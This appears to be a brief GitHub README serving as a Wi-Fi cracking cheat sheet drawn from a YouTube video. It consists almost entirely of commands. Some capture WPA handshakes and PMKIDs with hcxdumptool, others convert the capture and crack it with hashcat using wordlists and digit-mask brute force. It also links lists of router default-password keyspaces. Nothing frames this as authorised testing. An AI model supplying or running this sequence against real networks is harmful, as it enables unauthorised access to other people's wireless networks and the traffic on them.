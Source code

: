 # WiFi-Cracking-with-HashCat
Cat: Security

Hashcat wifi cracking from David Bombal's video

https://www.youtube.com/watch?v=Usw0IlGbkC4&t=915s

## COMMANDS
```
sudo systemctl stop NetworkManager && sudo systemctl stop wpa_supplicant

sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=1

sudo systemctl start wpa_supplicant && sudo systemctl start NetworkManager

hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng

hcxdumptool --do_rcascan -i wlan0

hashcat -m 22000 hash.hc22000 wordlist.txt
```
Windows:
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d

Usefull repositories for routers with default passwords.

https://github.com/sheimo/Wifi-WPA-Keyspace-List

https://github.com/n0kovo/ssid-keyspace-table
